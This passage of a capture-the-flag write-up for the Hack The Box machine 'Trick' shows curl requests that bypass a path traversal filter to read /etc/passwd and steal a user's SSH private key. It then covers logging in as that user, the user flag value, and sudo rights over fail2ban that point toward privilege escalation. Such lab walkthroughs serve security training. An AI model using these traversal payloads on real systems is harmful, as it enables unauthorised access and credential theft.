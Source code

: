 We can see it includes a file, and has a basic check for path traversal removing any paths with ../ in them. Which is easy to bypass so let's try using this knowledge with curl to grab the passwd file:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# curl -s "preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd" | grep bash
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

## SSH Access

We have one user who can login and port 22 is open, so safe to assume they have a .ssh folder in their home directory with a id_rsa file in there. Let's grab it:

```sh
┌──(root㉿kali)-[~]
└─# curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
<SNIP>
```

Paste that private key in to a file on Kali, don't forget to chmod it:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# chmod 600 id_rsa
```

Now we can login as michael:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─#  ssh michael@trick.htb -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64
Last login: Tue Jul  5 22:53:02 2022 from 10.10.14.141
michael@trick:~$
```

## User Flag

Let's grab the user flag first:

```text
michael@trick:~$ cat user.txt 
8b7e6ed5d1aeacee59f4231e738aba5c
```

## Fail2ban

Now to find our path to root, one of the first things to check is always sudo:

```text
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
